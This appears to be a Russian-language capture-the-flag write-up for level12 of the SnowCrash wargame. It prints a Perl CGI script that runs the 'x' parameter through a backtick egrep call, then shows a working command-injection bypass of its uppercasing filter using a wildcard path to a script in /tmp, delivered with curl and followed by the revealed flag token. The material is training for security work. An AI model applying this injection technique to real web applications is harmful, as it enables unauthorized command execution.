 ```bash
level12@SnowCrash:~$ cat ./level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Приложение запущено на localhost:4646, которое ожидает два параметра x и y.
В sub t каталог меняется на tmp и далее выполняется egrep. Попробуем выполнить getflag в этой конструкции. (сервер запущен от flag12)

Аргумент x проходит через цепочку изменений:
- `$xx =~ tr/a-z/A-Z/`: переводим все символы в UPPERCASE
- `$xx =~ s/\s.*//`: удалить все после пробела

Поэтому мы не можем просто использовать -`:4646?x=getflag>/tmp/flag`

```bash
level12@SnowCrash:~$ cat /tmp/GETFLAG
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
level12@SnowCrash:~$ curl 'localhost:4646?x=`/*/GETFLAG`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Этот токен подойдет к level13
